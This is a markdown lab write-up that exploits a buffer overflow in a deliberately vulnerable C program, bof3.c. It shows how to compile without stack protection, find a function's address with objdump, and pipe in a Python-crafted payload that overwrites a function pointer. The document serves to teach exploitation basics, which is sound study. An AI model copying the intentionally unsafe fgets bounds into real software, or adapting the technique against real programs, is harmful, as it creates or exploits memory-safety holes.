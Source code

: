 # Buffer Overflow Attack on `bof3.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell()
{
    printf("You made it! The shell() function is executed\n");
}

void sup()
{
    printf("Congrat!\n");
}

void main()
{
    int var;
    void (*func)() = sup;
    char buf[128];
    fgets(buf, 133, stdin);
    func();
}
```

This program has a vulnerability similar to the previous example ([`bof2.c`](bof2.md)). Although it uses `fgets()` to limit input size, the input limit (133 characters) exceeds the size of the `buf[128]` buffer, making it vulnerable to a buffer overflow attack.

The target is to exploit this vulnerability by modifying the `func` pointer, which initially points to the `sup()` function, to instead point to the `shell()` function.

## Compiling the Program

As with previous examples ([bof1.c](./bof1.md) and [bof2.c](./bof2.md)), we compile the source code using `-fno-stack-protector` to disable the stack protector, which prevents stack overflows from being detected at runtime.

```bash
gcc -g bof3.c -o bof3.o -fno-stack-protector -mpreferred-stack-boundary=2
```

A new executable file, `bof3.o`, is created.

## Stack Frame of `main()` Function

Here’s the stack frame in the `main()` function, with `buf[128]` and the function pointer `func`:

![main() stack frame](./img/bof3/stackframe.png)

## Finding the Address of the `shell()` Function

In order to redirect execution to `shell()`, we first need to find its address. We can do this using the `objdump` command.

```bash
objdump -d bof3.o | grep shell
```

### Result

![address of shell()](./img/bof3/objdump.png)
The address of the `shell()` function is `0x0804845b`. We will input this address in reverse order as `5b 84 04 08` (Little Endian format).

After our attack, the stack frame will look like this:

![new stack frame](./img/bof3/new_stackframe.png)

The value of the function pointer `*func` should now be `0x0804845b`, pointing to `shell()`.

## Crafting the Input for the Attack

To exploit this vulnerability, we need to:

1. Fill the buffer `buf[128]` with 128 characters.
2. Overwrite the address stored in `*func` with the address of `shell()` (`0x0804845b`).

We can use Python to craft the input:

```bash
echo $(python -c "print('a' * 128 + '\x5b\x84\x04\x08')")
```

### Explanation:

-   `'a' * 128`: Fills the `buf[128]` buffer.
-   `'\x5b\x84\x04\x08'`: The Little Endian representation of the `shell()` function's address, overwriting the `func` pointer.

### Injecting the Payload

We will pipe the crafted input into the program:

```bash
echo $(python -c "print('a' * 128 + '\x5b\x84\x04\x08')") | ./bof3.o
```

### Result:

![Result](./img/bof3/result.png)

The message confirms that we successfully redirected execution to the `shell()` function, demonstrating a successful buffer overflow attack.
